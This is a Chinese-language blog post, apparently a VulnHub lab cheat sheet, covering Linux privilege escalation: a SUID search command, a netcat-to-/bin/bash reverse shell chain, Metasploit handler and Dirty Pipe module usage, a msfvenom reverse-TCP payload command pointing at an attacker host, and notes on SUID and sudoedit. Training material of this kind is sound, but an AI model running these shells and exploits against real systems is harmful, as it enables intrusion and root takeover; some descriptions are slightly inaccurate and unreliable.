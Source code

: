 # 靶机_vulnhub

---
layout:     post
title:      靶机
subtitle:   教程
date:       2024-10-27
author:     白泽
header-img: img/post-bg-books.jpg
catalog: true
tags:
    - vulnhub
    - 靶场
    - 教程
---

相关命令：

```
find / -perm -u=s -type f 2>/dev/null
find --查找文件系统中文件和目录
/    --根目录开始查找
-perm   --权限匹配
-u=s    --|-u表示匹配用户权限，=s匹配设置了SUID的文件
2>dev/null  --将标准错误输出重定向到 /dev/null，以避免显示不必要的错误信息
```

```
nc -lvvp port   | nc ip 4444 | /bin/bash | nc ip 5555 --4xxx 输出命令，返回结果
python -m http.server port
msfconle 
use exploit/multi/handler --监听模块
set payload linux/x64/meterpreter/reverse_tcp  --进入监听paylaod
search local_exploit  --搜索漏洞脚本
use exploit/linux/local/cve_2022_0847_dirtypipe  --使用poc
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f elf > payload.elf   --生成木马文件



```



<hr>

相关提权方法

1. 内核漏洞提权  --利用Linux内核漏洞进行提权，如CVE-2016-5195（Dirty Cow） 工具：`linux-exploit-suggester`来找出可能的提权漏洞。
2. SUID提权  --利用设置了SUID位的可执行文件提权 相关命令`find / -perm -u=s -type f 2>/dev/null`
3. 计划任务（Cron Jobs）提权   --通过计划任务
4. sudo滥用提权  --利用配置不当的sudo权限，如无需密码的sudo命令
5. 敏感文件提权  --利用系统中的敏感文件，如`/etc/passwd`和`/etc/shadow`，进行提权
6. 通配符注入提权   --利用命令中的通配符注入来执行提权命令
7. 服务和应用程序配置错误提权   --利用配置错误的服务和应用程序，如NFS的`no_root_squash`选项
8. 使用数据库提权第三方服务提权

<hr>



```
SUID（Set User ID）是一种与文件权限相关的特殊权限位，用于在执行可执行文件时改变进程的有效用户 ID（UID）。当一个可执行文件设置了 SUID 权限，并且被普通用户执行时，该进程将以该文件的所有者（通常是文件的拥有者）的权限运行，而不是执行该进程的用户的权限。

SUID 权限通常用于需要特殊权限和权限访问的程序，以便普通用户可以执行它们而无需直接获取特权。典型的例子是 passwd 命令，它允许用户更改他们的密码。由于更改密码需要访问 /etc/shadow 文件，而该文件对普通用户是不可读的，因此 passwd 命令被设置了 SUID 权限，以便普通用户可以以文件所有者的权限运行该命令。

要设置文件的 SUID 权限，可以使用 chmod 命令并添加数字 4 或通过设置权限位为数字 4 的八进制值（如 4755）来设置 SUID 位。例如，要将文件的权限设置为 -rwsr-xr-x，可以使用以下命令：
`chmod u+s filename`
```

<hr>

```
sudoedit
它的作用是以超级用户权限编辑根目录 (/) 下的文件。
sudoedit 命令是 sudo 工具的一部分，它允许普通用户以超级用户 (root) 的权限编辑指定的文件。在执行 sudoedit 命令之前，用户需要通过输入自己的密码来验证身份，并获得执行特权操作的授权。

-s 选项用于以安全模式编辑文件。
```